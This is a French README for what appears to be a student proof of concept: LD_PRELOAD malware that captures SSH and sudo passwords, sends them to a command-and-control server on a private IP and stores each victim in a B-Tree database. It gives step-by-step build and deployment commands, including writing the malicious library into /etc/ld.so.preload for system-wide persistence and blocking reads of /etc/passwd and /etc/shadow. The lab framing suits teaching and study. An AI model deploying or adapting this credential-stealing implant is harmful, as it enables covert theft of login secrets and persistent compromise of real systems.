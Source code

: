 ## Auteur
- Angelov Onur et Slimani Anis — ESGI 3SIJ
# README - Malware LD_PRELOAD avec Serveur C2 et Base de Données en C (B-Tree)

Ce projet est un POC complet d’un malware basé sur `LD_PRELOAD`, capable d’intercepter les identifiants SSH d’un utilisateur, de les envoyer à un serveur distant C2, et de les stocker de manière persistante dans une base de données implémentée en C à l’aide d’un B-Tree.

Pour commencer : ``git clone https://github.com/Runo76/CC1-DATABASE-ESGI``
---
```
## 📁 Structure du projet

CC1-DATABASE-ESGI/
├── server/                    # Serveur C2 (écoute, enregistre les victimes)
│   ├── server.c
│   ├── register_victim.c
│   ├── Makefile
│   └── ...
├── BTreeDB/                   # Base de données des victimes (B-Tree)
│   ├── author.md
│   ├── btree.c/.h/.o
│   ├── table.c/.h/.o
│   ├── repl.c/.h/.o
│   ├── persistence.c/.h/.o
│   ├── main.c/.o
│   ├── database.db           # Fichier de base de données persistante
│   ├── id_counter.txt        # Fichier de compteur ID auto-incrémenté
│   ├── db.txt, db/, tests/   # Données et tests
│   ├── Makefile, README.md
│   └── BTreeProject/
├── LD_PRELOAD/malware/       # Malware LD_PRELOAD (client espion)
│   ├── malware.c
│   ├── send_to_c2.c
│   ├── malware.so            # Généré après compilation
│   ├── Makefile
│   └── install_ldso_preload.sh  # Script pour activer automatiquement LD_PRELOAD
└── README.md
```

---

## 💻 VM 1 – Serveur C2 (192.168.1.20)

### 🛠️ Prérequis

- OpenSSH installé :

  sudo apt install openssh-server
  sudo nano /etc/ssh/sshd_config
  # Modifier: Port 5555
  sudo systemctl enable ssh
  sudo systemctl start ssh
🔧 Compilation du serveur + base

cd ~/server/CC1-DATABASE-ESGI/server
make clean
make
🚀 Lancer le serveur C2

./server
Le serveur écoute sur le port 5555
Il reçoit :

register <hostname> <password> → stocké dans la base BTree

log <hostname> <cmd> → affiché dans le terminal

## 💻 VM 2 – Malware (192.168.1.15)
🛠️ Prérequis
OpenSSH installé :

sudo apt install openssh-server
⚠️ Configuration du malware
Dans send_to_c2.c, modifier l’IP du serveur (ligne #define C2_IP "...") :


#define C2_IP "192.168.1.20"
#define C2_PORT 5555
Vous pouvez aussi modifier le port C2 si nécessaire.

🔧 Compilation

cd ~/mal/CC1-DATABASE-ESGI/LD_PRELOAD/malware
make
🐚 Injection automatique via LD_PRELOAD

chmod +x add_to_ldso.sh
sudo ./add_to_ldso.sh
Cela ajoute le chemin absolu de malware.so dans /etc/ld.so.preload


| Fonction                         | Description                                                                                                                                               |
| -------------------------------- | --------------------------------------------------------------------------------------------------------------------------------------------------------- |
| 🔑 Exfiltration de mot de passe  | Intercepte les entrées `password:` dans un terminal                                                                                                       |
| 📦 Envoi vers serveur C2         | Format : `register <hostname> <mdp>`                                                                                                                      |
| 🚫 Blocage de fichiers sensibles: Empêche `open()` sur sudo /etc/passwd`, `/etc/shadow`, etc. Exemple : `sudo cat /etc/passwd` → Permission denied▪️ ` cat /etc/passwd` → aussi bloqué       |
| 🧠 Injection automatique via SSH | Vous pouvez tester avec :<br>▪️ `LD_PRELOAD=./malware.so ssh name@192.168.1.xx`                                                                           |
| 💾 Persistance dans BTree        | Chaque victime est stockée dans `database.db` avec ID unique                                                                                              |
| 🔁 Injection persistante         | Automatique via `/etc/ld.so.preload`                                                                                   

🔍 Vérification de la base
Sur la VM C2 :

cd ../BTreeDB
./db
Dans la CLI :


select
Vous verrez (le register el le mdp de la connexion ssh):
ex
(1, anisdebian, 1478)
(2, onur, 1234)

🧪 Exemple de test
Lancer le serveur C2 sur VM1 :
./server


Sur la VM malware, compiler et injecter :


make |
chmod +x add_to_ldso.sh|
sudo ./add_to_ldso.sh |
Se connecter à une machine distante via SSH (ou exécuter sudo ls)
exemple : |
LD_PRELOAD=./malware.so ssh nom@192.168.1.xx (ip)


→ password: sera intercepté sur le serverc2
Vérifier la base côté serveur :

cd ../BTreeDB
./db
> select (pour parcourir l'arbre et voir ceux qui est insert)
autre commande expliqué dans la db


❌ Pour désactiver le malware

sudo rm /etc/ld.so.preload
📎 Remarques
Le fichier database.db est mis à jour automatiquement.

